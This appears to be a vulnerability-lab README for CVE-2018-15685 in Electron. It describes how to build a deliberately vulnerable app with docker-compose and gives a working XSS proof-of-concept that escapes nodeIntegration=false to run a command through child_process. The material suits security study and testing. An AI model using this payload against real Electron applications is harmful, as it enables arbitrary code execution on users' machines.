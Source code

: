 # Electron WebPreferences Remote Code Execution Vulnerability（CVE-2018-15685）

[中文版本(Chinese version)](README.zh-cn.md)

Electron is an open source library developed by GitHub for building cross-platform desktop applications with HTML, CSS, and JavaScript. Electron accomplishes this by combining Chromium and Node.js into a single runtime and apps can be packaged for Mac, Windows, and Linux.

When Electron sets `nodeIntegration=false` (default), the JavaScript in the page cannot access the built-in library of node.js. CVE-2018-15685 bypass this limitation, enabling arbitrary commands to be executed if the user can execute JavaScript (such as when accessing a third-party page or an XSS vulnerability exists in the app).

Reference links:

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## Compile application

Execute the following command to compile an  vulnerability application:

```
docker-compose run -e PLATFORM=win64 --rm electron
```
The value of `PLATFORM` is the operating system on which the application is running. The options are:`win64`、`win32`、`mac`、`linux`。

After the compilation completed, execute the following command to run the web service:

```
docker-compose run --rm -p 8080:80 web
```

Now，access`http://your-ip:8080/cve-2018-15685.tar.gz`to download application.

## expliot

Open the app:

![](1.png)

Click submit, the content in the input box will be displayed in the app, and there is obviously an XSS vulnerability.

We submit `<img src=1 onerror="require('child_process').exec('calc.exe')">` and find that nothing happens, because `nodeIntegration=false`.

At this time, submit the POC (Windows):

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

As you see, calc.exe shows up.

![](2.png)
